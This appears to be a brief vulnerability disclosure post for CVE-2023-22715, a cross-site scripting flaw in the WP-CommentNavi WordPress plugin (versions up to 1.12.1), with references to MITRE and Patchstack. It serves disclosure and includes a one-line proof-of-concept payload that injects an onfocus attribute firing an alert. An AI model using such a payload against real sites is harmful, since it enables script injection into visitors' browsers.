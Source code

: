 ```yaml
---
layout: post
title: CVE-2023-22715 - WP-CommentNavi Plugin <= 1.12.1 - Cross Site Scripting (XSS)
---
```


Description
============
WP-CommentNavi Plugin <= 1.12.1 This could allow a malicious actor to inject malicious scripts, such as redirects, advertisements, and other HTML payloads into your website which will be executed when guests visit your site.

Proof Of Concept
============
Payload

~~~
" onfocus=alert(/XSS/) autofocus="
~~~

References
============ 
-[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-22715](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-22715)
-[Patchstack](https://patchstack.com/database/vulnerability/wp-commentnavi/wordpress-wp-commentnavi-plugin-1-12-1-cross-site-scripting-xss)



[Rio Darmawan](https://patchstack.com/database/researcher/0f0ce3de-fbab-4348-9729-a5ef92c74b3e)

